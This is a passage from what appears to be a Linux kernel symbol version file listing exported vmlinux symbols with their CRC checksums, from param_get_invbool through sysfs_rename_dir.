    vmlinux param_get_invbool 0x5b384ebc
    vmlinux param_get_long 0x53a21daf
    vmlinux param_get_short 0x6483655c
    vmlinux param_get_string 0x93304684
    vmlinux param_get_uint 0x72216fa9
    vmlinux param_get_ulong 0x7ded8240
    vmlinux param_get_ushort 0x5418d52a
    vmlinux param_set_bool 0xdc76cbcb
    vmlinux param_set_byte 0x5ad53dbc
    vmlinux param_set_charp 0x2cd7da6c
    vmlinux param_set_copystring 0x683a3221
    vmlinux param_set_int 0x98bd6f46
    vmlinux param_set_invbool 0x40f794f1
    vmlinux param_set_long 0x1992a2ba
    vmlinux param_set_short 0x40046949
    vmlinux param_set_uint 0x8abac70a
    vmlinux param_set_ulong 0x66eaa8a9
    vmlinux param_set_ushort 0xc4c5509d
    vmlinux path_lookup 0x2c358923
    vmlinux path_release 0xd4984fcc
    vmlinux path_walk 0xffff6622
    vmlinux pci_add_new_bus 0xac52a3c3
    vmlinux pci_assign_resource 0x3ba280d1
    vmlinux pci_block_user_cfg_access 0xa88546a3
    vmlinux pci_bus_add_device 0x58056f82
    vmlinux pci_bus_add_devices 0x62b64410
    vmlinux pci_bus_alloc_resource 0x377f20d0
    vmlinux pci_bus_assign_resources 0x1dcf434b
    vmlinux pci_bus_find_capability 0x2f803ccd
    vmlinux pci_bus_max_busnr 0xdc8b7cc4
    vmlinux pci_bus_read_config_byte 0x549f8972
    vmlinux pci_bus_read_config_dword 0x445c7629
    vmlinux pci_bus_read_config_word 0x7d94aea9
    vmlinux pci_bus_size_bridges 0xd7e34005
    vmlinux pci_bus_type 0x81788968
    vmlinux pci_bus_write_config_byte 0xafddc04c
    vmlinux pci_bus_write_config_dword 0xc2ab8a9c
    vmlinux pci_bus_write_config_word 0x8893e7f5
    vmlinux pci_choose_state 0x0d35f76e
    vmlinux pci_clear_mwi 0x486fdc9f
    vmlinux pci_create_bus 0x52e1dcc6
    vmlinux pci_dev_driver 0x1775689a
    vmlinux pci_dev_get 0x22026558
    vmlinux pci_dev_present 0x3145216f
    vmlinux pci_dev_put 0xc2b8453c
    vmlinux pci_disable_device 0x84f7d98a
    vmlinux pci_disable_msi 0x74675c1b
    vmlinux pci_disable_msix 0x36a0b9e6
    vmlinux pci_do_scan_bus 0x01ef06eb
    vmlinux pci_enable_bridges 0x5286a738
    vmlinux pci_enable_device 0xd0b6a1d9
    vmlinux pci_enable_device_bars 0x47ee320d
    vmlinux pci_enable_msi 0xfb25b738
    vmlinux pci_enable_msix 0x39974e96
    vmlinux pci_enable_wake 0x612a0b5b
    vmlinux pci_find_bus 0xe79d39b8
    vmlinux pci_find_capability 0x96aaa6bb
    vmlinux pci_find_device 0xc4db3f67
    vmlinux pci_find_device_reverse 0x891faa22
    vmlinux pci_find_next_bus 0xb57fb676
    vmlinux pci_find_next_capability 0xc198870f
    vmlinux pci_find_parent_resource 0x86aeb164
    vmlinux pci_find_slot 0x57542514
    vmlinux pci_fixup_device 0x4f0cab20
    vmlinux pci_get_class 0xd3cf0896
    vmlinux pci_get_device 0x197b8389
    vmlinux pci_get_slot 0x9eea7144
    vmlinux pci_get_subsys 0x36688a26
    vmlinux pci_intx 0x8d4ca139
    vmlinux pci_iomap 0xb846cfe7
    vmlinux pci_iounmap 0x7b6225ad
    vmlinux pci_map_rom 0x14579782
    vmlinux pci_map_rom_copy 0x615700c3
    vmlinux pci_match_device 0x6703cc41
    vmlinux pci_match_id 0xefa81299
    vmlinux pci_max_busnr 0xd95d22a5
    vmlinux pci_mem_start 0x3da171f9
    vmlinux pci_osc_control_set 0x20c8fc33
    vmlinux pci_osc_support_set 0xed9003ef
    vmlinux pci_pci_problems 0xdc14eda7
    vmlinux pci_proc_attach_bus 0xabd422a8
    vmlinux pci_proc_attach_device 0x8c18985b
    vmlinux pci_proc_detach_bus 0xad2964b6
    vmlinux pci_release_region 0xce76e102
    vmlinux pci_release_regions 0xb5b028bc
    vmlinux pci_remove_behind_bridge 0x57eb2f8f
    vmlinux pci_remove_bus 0xb887b9b9
    vmlinux pci_remove_bus_device 0xf64b13bf
    vmlinux pci_remove_device_safe 0x5aefe6db
    vmlinux pci_remove_rom 0x9119c168
    vmlinux pci_request_region 0x45093047
    vmlinux pci_request_regions 0x164ea78c
    vmlinux pci_restore_bars 0x2fb482c2
    vmlinux pci_restore_state 0x659e83ea
    vmlinux pci_root_buses 0x082c3213
    vmlinux pci_save_state 0x1d72c5db
    vmlinux pci_scan_bridge 0xf94aace1
    vmlinux pci_scan_bus_parented 0x564490e2
    vmlinux pci_scan_child_bus 0xd7ee9495
    vmlinux pci_scan_single_device 0x47fc15eb
    vmlinux pci_scan_slot 0x04d873c1
    vmlinux pci_set_consistent_dma_mask 0x4cab3957
    vmlinux pci_set_dma_mask 0x57878fc2
    vmlinux pci_set_master 0xe1d69471
    vmlinux pci_set_mwi 0xa1691895
    vmlinux pci_set_power_state 0x040bde66
    vmlinux pci_setup_cardbus 0xb61cce7a
    vmlinux pci_unblock_user_cfg_access 0xf1581ed9
    vmlinux pci_unmap_rom 0xf91d2aaf
    vmlinux pci_unregister_driver 0x9570f4fb
    vmlinux pci_walk_bus 0xc938401f
    vmlinux pcibios_get_irq_routing_table 0xda08c0d7
    vmlinux pcibios_set_irq_routing 0x938a8e13
    vmlinux pcie_mch_quirk 0x7f8723bd
    vmlinux pcie_port_service_register 0xc706b352
    vmlinux pcie_port_service_unregister 0xbb18fb5f
    vmlinux pciserial_init_ports 0x11d191dc
    vmlinux pciserial_remove_ports 0x4746b5c7
    vmlinux pciserial_resume_ports 0x69949971
    vmlinux pciserial_suspend_ports 0xbd46e0df
    vmlinux per_cpu__cpu_16bit_stack 0x42f5b870
    vmlinux per_cpu__irq_stat 0xb994c584
    vmlinux per_cpu__kstat 0xca09a9af
    vmlinux per_cpu__softnet_data 0x22f15cd1
    vmlinux percpu_counter_mod 0x921ec48a
    vmlinux permission 0x6b800419
    vmlinux pfifo_qdisc_ops 0xbd31c4aa
    vmlinux platform_add_devices 0x54d6ca91
    vmlinux platform_bus 0xaf654a77
    vmlinux platform_bus_type 0x5a7e2501
    vmlinux platform_device_add 0xfa770dc7
    vmlinux platform_device_add_data 0x4851112b
    vmlinux platform_device_add_resources 0xbb246bd6
    vmlinux platform_device_alloc 0x606ba363
    vmlinux platform_device_put 0x8f2e53d3
    vmlinux platform_device_register 0x661ed4ed
    vmlinux platform_device_register_simple 0x6978e61a
    vmlinux platform_device_unregister 0x5981ad99
    vmlinux platform_driver_register 0xf70da7bd
    vmlinux platform_driver_unregister 0x4e5cdaba
    vmlinux platform_get_irq 0x8bbc1539
    vmlinux platform_get_irq_byname 0xe455e025
    vmlinux platform_get_resource 0x20818267
    vmlinux platform_get_resource_byname 0x018ef901
    vmlinux pm_active 0xebd387f6
    vmlinux pm_idle 0xf890fe7f
    vmlinux pm_power_off 0x60a32ea9
    vmlinux pm_register 0x2099274a
    vmlinux pm_send_all 0xe3016e92
    vmlinux pm_unregister 0x2e1bf603
    vmlinux pm_unregister_all 0x005d6cf1
    vmlinux pneigh_enqueue 0x30a61153
    vmlinux pneigh_lookup 0x7d238298
    vmlinux pnp_activate_dev 0x48d3be12
    vmlinux pnp_device_attach 0xdb53ba77
    vmlinux pnp_device_detach 0x0a3330cc
    vmlinux pnp_disable_dev 0x2c1af173
    vmlinux pnp_find_card 0x663c7b35
    vmlinux pnp_find_dev 0xb76382b8
    vmlinux pnp_init_resource_table 0x16084899
    vmlinux pnp_is_active 0x745546d4
    vmlinux pnp_manual_config_dev 0xd2f30b68
    vmlinux pnp_register_card_driver 0x27a9094b
    vmlinux pnp_register_driver 0x0c6d9dba
    vmlinux pnp_release_card_device 0xd6700074
    vmlinux pnp_request_card_device 0x259f665b
    vmlinux pnp_resource_change 0xf577ec2b
    vmlinux pnp_unregister_card_driver 0x849d5abc
    vmlinux pnp_unregister_driver 0x396f477d
    vmlinux pnpbios_protocol 0x54488434
    vmlinux poll_freewait 0x0bf5d0d4
    vmlinux poll_initwait 0x418367cb
    vmlinux posix_acl_alloc 0x0f1ef871
    vmlinux posix_acl_chmod_masq 0xd32e52c7
    vmlinux posix_acl_clone 0xc722227e
    vmlinux posix_acl_create_masq 0x640a7078
    vmlinux posix_acl_equiv_mode 0xd8282ff0
    vmlinux posix_acl_from_mode 0x3adc15b9
    vmlinux posix_acl_from_xattr 0x85ac7f10
    vmlinux posix_acl_permission 0xd5a0bccd
    vmlinux posix_acl_to_xattr 0x1ecb9943
    vmlinux posix_acl_valid 0xaed013b9
    vmlinux posix_block_lock 0xfcad9b47
    vmlinux posix_lock_file 0xe62112fa
    vmlinux posix_lock_file_wait 0xa7eabad0
    vmlinux posix_locks_deadlock 0xa506930c
    vmlinux posix_test_lock 0xb4918170
    vmlinux posix_timer_event 0x394eaa99
    vmlinux posix_unblock_lock 0x6174c95b
    vmlinux pre_task_out_intr 0x87bf3c92
    vmlinux prepare_binprm 0xca514a36
    vmlinux prepare_to_wait 0xc8f02aeb
    vmlinux prepare_to_wait_exclusive 0x42ca3c61
    vmlinux printk 0x1b7d4074
    vmlinux printk_ratelimit 0xa13798f8
    vmlinux probe_hwif_init 0x552f0d7a
    vmlinux probe_irq_mask 0x360b1afe
    vmlinux probe_irq_off 0xab600421
    vmlinux probe_irq_on 0xb121390a
    vmlinux proc_bus 0xef588adc
    vmlinux proc_dointvec 0x5153cd6e
    vmlinux proc_dointvec_jiffies 0x0d31d5ba
    vmlinux proc_dointvec_minmax 0xd51c611c
    vmlinux proc_dointvec_ms_jiffies 0x6d77f752
    vmlinux proc_dointvec_userhz_jiffies 0xd616da39
    vmlinux proc_dostring 0xc3201d34
    vmlinux proc_doulongvec_minmax 0xeb61e782
    vmlinux proc_doulongvec_ms_jiffies_minmax 0x605382f5
    vmlinux proc_ide_read_capacity 0x46b2a30d
    vmlinux proc_ide_read_geometry 0x50fed6f7
    vmlinux proc_mkdir 0xc5234e65
    vmlinux proc_net 0xf6e900d3
    vmlinux proc_net_netfilter 0x8aa531ed
    vmlinux proc_net_stat 0x75d1706d
    vmlinux proc_root 0x5e20aeab
    vmlinux proc_root_driver 0x07da2ee0
    vmlinux proc_root_fs 0x05699405
    vmlinux proc_symlink 0x00020b9e
    vmlinux profile_event_register 0x9159b9d6
    vmlinux profile_event_unregister 0x3c942368
    vmlinux proto_register 0x3d109c88
    vmlinux proto_unregister 0xea293f99
    vmlinux ps2_cmd_aborted 0xd5a1c23c
    vmlinux ps2_command 0xa1248f47
    vmlinux ps2_drain 0x5a1d7fe4
    vmlinux ps2_handle_ack 0x0d7e160d
    vmlinux ps2_handle_response 0xbb240f4e
    vmlinux ps2_init 0xf8966508
    vmlinux ps2_schedule_command 0x56dd8e99
    vmlinux ps2_sendbyte 0xd6887ec4
    vmlinux pskb_copy 0xf4d16a60
    vmlinux pskb_expand_head 0xae4234b5
    vmlinux pskb_put 0x31dbb29c
    vmlinux ptrace_notify 0x70c66486
    vmlinux put_bus 0x4efb8607
    vmlinux put_cmsg 0xf39bf4d9
    vmlinux put_device 0x1831d865
    vmlinux put_disk 0x7b53cd24
    vmlinux put_driver 0x8296428c
    vmlinux put_files_struct 0x5847774a
    vmlinux put_io_context 0x2972e09b
    vmlinux put_page 0xb6d3e22b
    vmlinux put_tty_driver 0x9dbf4f1f
    vmlinux put_unused_fd 0x023eb25e
    vmlinux qdisc_alloc 0x0d1b9238
    vmlinux qdisc_create_dflt 0x28524b79
    vmlinux qdisc_destroy 0x2fc6e214
    vmlinux qdisc_get_rtab 0x3adce61c
    vmlinux qdisc_lock_tree 0x6a0f3859
    vmlinux qdisc_lookup 0x3c3f5547
    vmlinux qdisc_put_rtab 0x821a0545
    vmlinux qdisc_reset 0xa069222c
    vmlinux qdisc_restart 0xf4ed4d29
    vmlinux qdisc_unlock_tree 0x28a03eb7
    vmlinux queue_delayed_work 0x9944fdb5
    vmlinux queue_work 0x375ce76f
    vmlinux radix_tree_delete 0xa34bdcd0
    vmlinux radix_tree_gang_lookup 0x883e226b
    vmlinux radix_tree_gang_lookup_tag 0xcc4e9047
    vmlinux radix_tree_insert 0x7dc88ba1
    vmlinux radix_tree_lookup 0x5c2da0c3
    vmlinux radix_tree_lookup_slot 0x6bbbfb36
    vmlinux radix_tree_tag_clear 0x374a51dd
    vmlinux radix_tree_tag_set 0x7e92ceb7
    vmlinux radix_tree_tagged 0xdacd0c37
    vmlinux raise_softirq_irqoff 0xd8c152cd
    vmlinux rb_erase 0x7ee8c5cb
    vmlinux rb_first 0xf6c3815e
    vmlinux rb_insert_color 0x7ec51f67
    vmlinux rb_last 0x92f67838
    vmlinux rb_next 0x44ba0f42
    vmlinux rb_prev 0xba8b14e3
    vmlinux rb_replace_node 0x9778b88b
    vmlinux rcu_barrier 0x60a13e90
    vmlinux rcu_batches_completed 0x04486e88
    vmlinux read_cache_page 0x1349d5ba
    vmlinux read_cache_pages 0x7017d952
    vmlinux read_dev_sector 0xddc0e2c4
    vmlinux recalc_sigpending 0xfb6af58d
    vmlinux recalibrate_cpu_khz 0x31e76b57
    vmlinux redirty_page_for_writepage 0x918cf76a
    vmlinux redraw_screen 0xf68977ee
    vmlinux refrigerator 0x35c2ba9e
    vmlinux register_8022_client 0x3672d190
    vmlinux register_acpi_bus_type 0x4618eb21
    vmlinux register_atm_ioctl 0x8d368d86
    vmlinux register_binfmt 0xa476ea20
    vmlinux register_blkdev 0x71a50dbc
    vmlinux register_chrdev 0x4084eb2a
    vmlinux register_chrdev_region 0xd8e484f0
    vmlinux register_console 0xd3259125
    vmlinux register_cpu_notifier 0x4550ba8a
    vmlinux register_die_notifier 0x53986488
    vmlinux register_exec_domain 0xd32f64ab
    vmlinux register_filesystem 0xd0d625ab
    vmlinux register_firmware 0x711cccd3
    vmlinux register_framebuffer 0x59b0a7f6
    vmlinux register_gifconf 0x533afd0d
    vmlinux register_inetaddr_notifier 0x3e45e9ff
    vmlinux register_key_type 0x1bc61f46
    vmlinux register_module_notifier 0x59d696b6
    vmlinux register_netdev 0x5d287c42
    vmlinux register_netdevice 0x177b61ac
    vmlinux register_netdevice_notifier 0x63ecad53
    vmlinux register_nls 0x52b6e532
    vmlinux register_posix_clock 0x2e66c495
    vmlinux register_qdisc 0x6a0e6b0d
    vmlinux register_quota_format 0x0c0f1bdf
    vmlinux register_reboot_notifier 0x1cc6719a
    vmlinux register_security 0xd5134262
    vmlinux register_snap_client 0x6eac9fc6
    vmlinux register_sysctl_table 0x3b555da5
    vmlinux register_sysrq_key 0x1bb5d338
    vmlinux register_tcf_proto_ops 0xa680d9e4
    vmlinux register_timer_hook 0xf5269962
    vmlinux register_wlandev 0xe00ff373
    vmlinux registered_fb 0x01f5bb50
    vmlinux release_console_sem 0x434fa55c
    vmlinux release_firmware 0x33934162
    vmlinux release_lapic_nmi 0x4129043e
    vmlinux release_resource 0x814e8407
    vmlinux release_sock 0x5490956a
    vmlinux remap_pfn_range 0xf72732e4
    vmlinux remote_llseek 0x5da66209
    vmlinux remove_arg_zero 0x12b5acc0
    vmlinux remove_inode_hash 0xe7d87533
    vmlinux remove_proc_entry 0xc0f2fe45
    vmlinux remove_shrinker 0x4ba0b42b
    vmlinux remove_suid 0x5c3aa561
    vmlinux remove_wait_queue 0x3adc4c7c
    vmlinux reqsk_queue_alloc 0xba2cb35d
    vmlinux reqsk_queue_destroy 0xa7a769df
    vmlinux request_dma 0x7054a3e4
    vmlinux request_firmware 0xdcafaf25
    vmlinux request_firmware_nowait 0x2171792f
    vmlinux request_irq 0x26e96637
    vmlinux request_key 0xf331d50b
    vmlinux request_module 0x98adfde2
    vmlinux request_resource 0x41685cfb
    vmlinux reserve_lapic_nmi 0xb903b498
    vmlinux restore_processor_state 0x8dc6e564
    vmlinux rtattr_parse 0xe49414e9
    vmlinux rtattr_strlcpy 0x85902f79
    vmlinux rtc_cmos_read 0x9e64fbfe
    vmlinux rtc_cmos_write 0x2def7f76
    vmlinux rtc_control 0xc9b27289
    vmlinux rtc_lock 0x811afadf
    vmlinux rtc_register 0xfdab2b9c
    vmlinux rtc_unregister 0xeddfe49d
    vmlinux rtnetlink_links 0xa1668ded
    vmlinux rtnetlink_put_metrics 0xf273fda0
    vmlinux rtnl 0x3776349b
    vmlinux rtnl_lock 0xc7a4fbed
    vmlinux rtnl_lock_interruptible 0xd944eb80
    vmlinux rtnl_sem 0x30bb35b6
    vmlinux rtnl_unlock 0x6e720ff2
    vmlinux rwsem_down_read_failed 0x2429c7a6
    vmlinux rwsem_down_write_failed 0xbf2fb071
    vmlinux rwsem_downgrade_wake 0x9ce9a507
    vmlinux rwsem_wake 0xd63128cc
    vmlinux save_processor_state 0x75271716
    vmlinux sb_min_blocksize 0x9851fc98
    vmlinux sb_set_blocksize 0xbda2cab0
    vmlinux sched_setscheduler 0x504cca6c
    vmlinux schedule 0x4292364c
    vmlinux schedule_delayed_work 0xfc535e10
    vmlinux schedule_delayed_work_on 0xe793020b
    vmlinux schedule_timeout 0x17d59d01
    vmlinux schedule_timeout_interruptible 0x09c55cec
    vmlinux schedule_timeout_uninterruptible 0xd0ee38b8
    vmlinux schedule_work 0x0a3fa85c
    vmlinux scm_detach_fds 0x2262d280
    vmlinux scm_fp_dup 0x2c733964
    vmlinux scnprintf 0x28f35813
    vmlinux screen_info 0xe7bf7d05
    vmlinux scsi_cmd_ioctl 0x8861064c
    vmlinux scsi_command_size 0x9b05ea5c
    vmlinux search_binary_handler 0x2a6ab72f
    vmlinux secpath_dup 0x9f8d6f78
    vmlinux secure_dccp_sequence_number 0x88745348
    vmlinux secure_tcp_sequence_number 0x1e68841f
    vmlinux secure_tcpv6_port_ephemeral 0x8167795f
    vmlinux secure_tcpv6_sequence_number 0x7c2ca2de
    vmlinux securebits 0xabe77484
    vmlinux security_ops 0x69c37247
    vmlinux securityfs_create_dir 0x7b7f109a
    vmlinux securityfs_create_file 0x75f0d3a7
    vmlinux securityfs_remove 0x2b52af92
    vmlinux send_sig 0x69c5bee5
    vmlinux send_sig_info 0x2be23d79
    vmlinux seq_escape 0xf117eca8
    vmlinux seq_lseek 0x18f80216
    vmlinux seq_open 0x378cb890
    vmlinux seq_path 0x73756354
    vmlinux seq_printf 0x6744e2b1
    vmlinux seq_putc 0x1fb29b9a
    vmlinux seq_puts 0xa6deab07
    vmlinux seq_read 0xc7177d49
    vmlinux seq_release 0x8ac97000
    vmlinux seq_release_private 0xc64489c0
    vmlinux serial8250_register_port 0x125cafd9
    vmlinux serial8250_resume_port 0xc7208c3a
    vmlinux serial8250_suspend_port 0xcc248d26
    vmlinux serial8250_unregister_port 0xcefcd99a
    vmlinux serio_close 0x7e5844ab
    vmlinux serio_interrupt 0x615eb359
    vmlinux serio_open 0x9014f107
    vmlinux serio_reconnect 0xec735c7a
    vmlinux serio_rescan 0x47995c56
    vmlinux serio_unregister_child_port 0xf9401e38
    vmlinux serio_unregister_driver 0x1d045ca1
    vmlinux serio_unregister_port 0x80178f1b
    vmlinux set_anon_super 0xa0268dd6
    vmlinux set_bh_page 0x30767bf3
    vmlinux set_binfmt 0x03935330
    vmlinux set_blocksize 0x1551d2f4
    vmlinux set_cpus_allowed 0x7be4f1d4
    vmlinux set_current_groups 0x72fbae28
    vmlinux set_device_ro 0x2e39dcb8
    vmlinux set_disk_ro 0x2afa6d9f
    vmlinux set_nmi_callback 0x2c4fa81f
    vmlinux set_page_dirty 0x4051c2c7
    vmlinux set_page_dirty_lock 0xcd576ff5
    vmlinux set_shrinker 0xe8d11cf8
    vmlinux set_user_nice 0x3fef48b4
    vmlinux setlease 0x7473018a
    vmlinux setup_arg_pages 0x691f807d
    vmlinux sget 0x4365c864
    vmlinux sha_transform 0xf313da4e
    vmlinux shrink_dcache_parent 0x4b278a28
    vmlinux shrink_dcache_sb 0xc4dfa278
    vmlinux si_meminfo 0xb3a307c6
    vmlinux sigprocmask 0x4d3c153f
    vmlinux simple_attr_close 0x7752cb96
    vmlinux simple_attr_open 0x902ecf8b
    vmlinux simple_attr_read 0x1eeae99b
    vmlinux simple_attr_write 0x3fabb627
    vmlinux simple_commit_write 0x32693730
    vmlinux simple_dir_inode_operations 0xe4dd6ebd
    vmlinux simple_dir_operations 0x72674212
    vmlinux simple_empty 0xb90c138d
    vmlinux simple_fill_super 0xd1a3b07e
    vmlinux simple_getattr 0xd534c391
    vmlinux simple_link 0xaf98606d
    vmlinux simple_lookup 0xa0c7aa93
    vmlinux simple_pin_fs 0x5fa2d324
    vmlinux simple_prepare_write 0xddc52b81
    vmlinux simple_read_from_buffer 0x528c709d
    vmlinux simple_readpage 0xc67c7890
    vmlinux simple_release_fs 0x5b21bef1
    vmlinux simple_rename 0xc17e72b5
    vmlinux simple_rmdir 0xf492b3b4
    vmlinux simple_statfs 0x1cfc21d3
    vmlinux simple_strtol 0x0b742fd7
    vmlinux simple_strtoul 0x20000329
    vmlinux simple_strtoull 0x61b7b126
    vmlinux simple_sync_file 0x44512235
    vmlinux simple_transaction_get 0x6b11823a
    vmlinux simple_transaction_read 0x28b4d848
    vmlinux simple_transaction_release 0x1754a211
    vmlinux simple_unlink 0xfd898071
    vmlinux single_open 0x2d242f42
    vmlinux single_release 0x3b1284c1
    vmlinux sk_alloc 0x67d3c7ba
    vmlinux sk_chk_filter 0x53c0767c
    vmlinux sk_clone 0xd2bd367b
    vmlinux sk_common_release 0xaad475c2
    vmlinux sk_free 0x21f46a27
    vmlinux sk_reset_timer 0x7a4e6520
    vmlinux sk_run_filter 0x77492cb3
    vmlinux sk_send_sigurg 0x345b55c7
    vmlinux sk_stop_timer 0xb6444267
    vmlinux sk_stream_error 0x6818c205
    vmlinux sk_stream_kill_queues 0xf0127208
    vmlinux sk_stream_mem_schedule 0x11a7fb75
    vmlinux sk_stream_rfree 0x2648ff7f
    vmlinux sk_stream_wait_close 0xec89eafe
    vmlinux sk_stream_wait_connect 0xbc5c3735
    vmlinux sk_stream_wait_memory 0x258cb5b9
    vmlinux sk_stream_write_space 0xb38707d0
    vmlinux sk_wait_data 0xbc83e027
    vmlinux skb_abort_seq_read 0xfb34b33c
    vmlinux skb_append 0xb818b448
    vmlinux skb_append_datato_frags 0x200c4a12
    vmlinux skb_checksum 0xb7fab053
    vmlinux skb_checksum_help 0x63180569
    vmlinux skb_clone 0xdb1c7bdf
    vmlinux skb_clone_fraglist 0x5aa10e11
    vmlinux skb_copy 0xac054aaa
    vmlinux skb_copy_and_csum_bits 0xff3eae1f
    vmlinux skb_copy_and_csum_datagram_iovec 0x9a377186
    vmlinux skb_copy_and_csum_dev 0xc2cf975e
    vmlinux skb_copy_bits 0x7b831769
    vmlinux skb_copy_datagram_iovec 0x5c49a5c4
    vmlinux skb_copy_expand 0xdecc15cd
    vmlinux skb_cow_data 0xc41926ad
    vmlinux skb_dequeue 0x18f98685
    vmlinux skb_dequeue_tail 0x9f29630a
    vmlinux skb_find_text 0xd1f229bf
    vmlinux skb_free_datagram 0x0f4c5de7
    vmlinux skb_icv_walk 0x8cb7441a
    vmlinux skb_insert 0xe8883daa
    vmlinux skb_make_writable 0x63189336
    vmlinux skb_migrate 0x68f533ec
    vmlinux skb_over_panic 0xa718348a
    vmlinux skb_pad 0xba7fa17e
    vmlinux skb_prepare_seq_read 0xfac12518
    vmlinux skb_queue_head 0x9fd42c7c
    vmlinux skb_queue_purge 0xc1e81118
    vmlinux skb_queue_tail 0x0cb98c4d
    vmlinux skb_realloc_headroom 0x7cffa15b
    vmlinux skb_recv_datagram 0x6bc1a191
    vmlinux skb_seq_read 0xde651671
    vmlinux skb_split 0x15810cda
    vmlinux skb_store_bits 0x5c139964
    vmlinux skb_to_sgvec 0x1a71d186
    vmlinux skb_under_panic 0x42967075
    vmlinux skb_unlink 0x0e4f22bf
    vmlinux sleep_on 0x1a7fdad0
    vmlinux sleep_on_timeout 0x8dd8f6fb
    vmlinux smp_call_function 0x0014bfd1
    vmlinux smp_num_siblings 0xd1f6c5f3
    vmlinux snprintf 0x025da070
    vmlinux sock_alloc_send_skb 0x5618b06e
    vmlinux sock_common_getsockopt 0x3dbe9fea
    vmlinux sock_common_recvmsg 0x7279f87d
    vmlinux sock_common_setsockopt 0xf1095bf6
    vmlinux sock_create 0x0b3ee6b1
    vmlinux sock_create_kern 0x9289c46a
    vmlinux sock_create_lite 0xa75ea5ef
    vmlinux sock_enable_timestamp 0x2025f2b6
    vmlinux sock_get_timestamp 0x730f66fb
    vmlinux sock_i_ino 0x6db97e86
    vmlinux sock_i_uid 0x10eefc01
    vmlinux sock_init_data 0x1bd7cca8
    vmlinux sock_kfree_s 0x22a59ed0
    vmlinux sock_kmalloc 0xded86614
    vmlinux sock_map_fd 0x2da52d54
    vmlinux sock_no_accept 0x8b03e627
    vmlinux sock_no_bind 0x8bcf5f08
    vmlinux sock_no_connect 0x2db797a8
    vmlinux sock_no_getname 0x59afa438
    vmlinux sock_no_getsockopt 0x63cc5c83
    vmlinux sock_no_ioctl 0xd29ea501
    vmlinux sock_no_listen 0x6d99dfe9
    vmlinux sock_no_mmap 0x725c319b
    vmlinux sock_no_poll 0x5509a88a
    vmlinux sock_no_recvmsg 0xe2cdb765
    vmlinux sock_no_sendmsg 0x22c759ee
    vmlinux sock_no_sendpage 0x784fa39b
    vmlinux sock_no_setsockopt 0x779763dd
    vmlinux sock_no_shutdown 0x4069f9d6
    vmlinux sock_no_socketpair 0x02e1db63
    vmlinux sock_recvmsg 0x1a882407
    vmlinux sock_register 0x392694ee
    vmlinux sock_release 0xd5f5e066
    vmlinux sock_rfree 0xdddcc919
    vmlinux sock_sendmsg 0xcdc8c622
    vmlinux sock_setsockopt 0x012b3bde
    vmlinux sock_unregister 0x2394a062
    vmlinux sock_wake_async 0xb61889d6
    vmlinux sock_wfree 0xcb82d774
    vmlinux sock_wmalloc 0x3aaadba8
    vmlinux sockfd_lookup 0x09a9d63a
    vmlinux sonet_copy_stats 0x89195dc3
    vmlinux sonet_subtract_stats 0x1a24e5e2
    vmlinux sort 0x310917fe
    vmlinux sprintf 0x1d26aa98
    vmlinux sscanf 0x859204af
    vmlinux start_tty 0xab97b4bd
    vmlinux steal_locks 0xd4b27fae
    vmlinux stop_tty 0x5858f744
    vmlinux strcspn 0x6c1ce5ce
    vmlinux strlcat 0xdd0a2ba2
    vmlinux strlcpy 0x73e20c1c
    vmlinux strnchr 0x0a3131f6
    vmlinux strncpy_from_user 0x245ec8e8
    vmlinux strnicmp 0x4e830a3e
    vmlinux strnlen_user 0xbcc308bb
    vmlinux strpbrk 0x9a1dfd65
    vmlinux strsep 0x85df9b6c
    vmlinux strspn 0xc7ec6c27
    vmlinux strstr 0x1e6d26a8
    vmlinux struct_module 0x67c94bcc
    vmlinux submit_bh 0x2323b508
    vmlinux submit_bio 0x9fc8a2b4
    vmlinux subsys_create_file 0x0fe267d0
    vmlinux subsys_remove_file 0x085fd017
    vmlinux subsystem_init 0x78e9f34f
    vmlinux subsystem_register 0x2aacbad7
    vmlinux subsystem_unregister 0x6828f010
    vmlinux suid_dumpable 0xb694c524
    vmlinux swap_io_context 0x710c214c
    vmlinux switch_APIC_timer_to_ipi 0xa5c79544
    vmlinux switch_ipi_to_APIC_timer 0xac7eb84c
    vmlinux symbol_put_addr 0x66d87d38
    vmlinux sync_blockdev 0x600f8e07
    vmlinux sync_dirty_buffer 0xdf6f82b5
    vmlinux sync_inode 0x017272aa
    vmlinux sync_mapping_buffers 0xfc420942
    vmlinux sync_page_range 0x98e57501
    vmlinux synchronize_irq 0xe523ad75
    vmlinux synchronize_kernel 0xad036394
    vmlinux synchronize_net 0x609f1c7e
    vmlinux synchronize_rcu 0x6091797f
    vmlinux sys_close 0x268cc6a2
    vmlinux sys_open 0x0359f865
    vmlinux sys_read 0x16bd3948
    vmlinux sys_tz 0xfe5d4bb2
    vmlinux sysctl_intvec 0x5120ff9f
    vmlinux sysctl_ip_nonlocal_bind 0xdbcd416e
    vmlinux sysctl_jiffies 0x3396a18d
    vmlinux sysctl_local_port_range 0xee08006f
    vmlinux sysctl_ms_jiffies 0xcdbef392
    vmlinux sysctl_optmem_max 0xa108eb4d
    vmlinux sysctl_rmem_max 0xb05fc310
    vmlinux sysctl_string 0xdfc0856e
    vmlinux sysctl_tcp_abc 0x2cd19491
    vmlinux sysctl_tcp_ecn 0x17df17bc
    vmlinux sysctl_tcp_low_latency 0x2ba707a8
    vmlinux sysctl_tcp_mem 0xce36ded6
    vmlinux sysctl_tcp_reordering 0x99cdc86b
    vmlinux sysctl_tcp_rmem 0x8d551bef
    vmlinux sysctl_tcp_tso_win_divisor 0xe1df1e5f
    vmlinux sysctl_tcp_tw_reuse 0x29f524fc
    vmlinux sysctl_tcp_wmem 0xfc02b7ad
    vmlinux sysctl_vfs_cache_pressure 0x82d79b51
    vmlinux sysctl_wmem_max 0xfac8865f
    vmlinux sysdev_class_register 0xb95c36e1
    vmlinux sysdev_class_unregister 0xbe76e307
    vmlinux sysdev_create_file 0xbcda5f17
    vmlinux sysdev_driver_register 0xdee9da62
    vmlinux sysdev_driver_unregister 0x247c0617
    vmlinux sysdev_register 0x269862c2
    vmlinux sysdev_remove_file 0x4e88c50b
    vmlinux sysdev_unregister 0xb7f5a8b9
    vmlinux sysfs_chmod_file 0x643ae6aa
    vmlinux sysfs_create_bin_file 0x415a905e
    vmlinux sysfs_create_dir 0x48dde826
    vmlinux sysfs_create_file 0x8c470de1
    vmlinux sysfs_create_group 0x2a638a91
    vmlinux sysfs_create_link 0x2eb69666
    vmlinux sysfs_remove_bin_file 0x48696a72
    vmlinux sysfs_remove_dir 0x4ef32c5f
    vmlinux sysfs_remove_file 0x3c61744c
    vmlinux sysfs_remove_group 0xd3e0972a
    vmlinux sysfs_remove_link 0xd1689de8
    vmlinux sysfs_rename_dir 0x11c09192
